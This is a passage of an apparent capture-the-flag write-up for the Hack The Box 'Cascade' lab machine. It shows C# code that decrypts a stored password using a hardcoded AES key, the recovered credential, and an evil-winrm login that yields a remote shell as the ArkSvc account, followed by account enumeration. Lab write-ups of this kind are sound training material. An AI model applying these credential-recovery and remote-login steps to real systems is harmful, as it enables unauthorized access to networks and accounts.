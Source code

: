 ```cpp
     using (MemoryStream memoryStream = new MemoryStream(buffer))
     {
       using (CryptoStream cryptoStream = new CryptoStream((Stream) memoryStream, ((SymmetricAlgorithm) aes).CreateDecryptor(), CryptoStreamMode.Read))
       {
         byte[] numArray = new byte[checked (buffer.Length - 1 + 1)];
         cryptoStream.Read(numArray, 0, numArray.Length);
         return Encoding.UTF8.GetString(numArray);
       }
     }
   }
}
```
My hackish attempt basically does the following:
- 1. Copy the entire `DecryptString` function from `CascCrypto.dll` over to my script;
- 2. Call the `DecryptString` function on the hash `BQO5l5Kj9MdErXx6Q6AGOw==` with the key `c4scadek3y654321`.
  
  
Back on Kali, use `mono` to compile and run our `C#` code:
```
$ mcs -out:decrypt.exe decrypt.cs 
kali@kali:~/htb/cascade/smb/test-cs$ mono decrypt.exe 
w3lc0meFr31nd
```
Thank you for the welcome :)

### Shell as ArkSvc
See that the `ArkSvc` user is also part of the `Remote Management Users` group so we can login:
```
$ cat initial.txt | grep -i "remote"
group:[Remote Desktop Users] rid:[0x22b]
group:[WinRMRemoteWMIUsers__] rid:[0x465]
group:[Remote Management Users] rid:[0x466]
Group 'Remote Management Users' (RID: 1126) has member: CASCADE\arksvc
Group 'Remote Management Users' (RID: 1126) has member: CASCADE\s.smith
```
Yep.
```
$ evil-winrm -i cascade.htb -u arksvc -p w3lc0meFr31nd

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents>
```
As we did earlier with `s.smith`, now let's do the same thing and check out the properties of our new friend `ArkSvc`:
```
*Evil-WinRM* PS C:\Users\arksvc\Documents> net user arksvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 5:18:20 PM
Password expires             Never
Password changeable          1/9/2020 5:18:20 PM
Password required            Yes
User may change password     No

```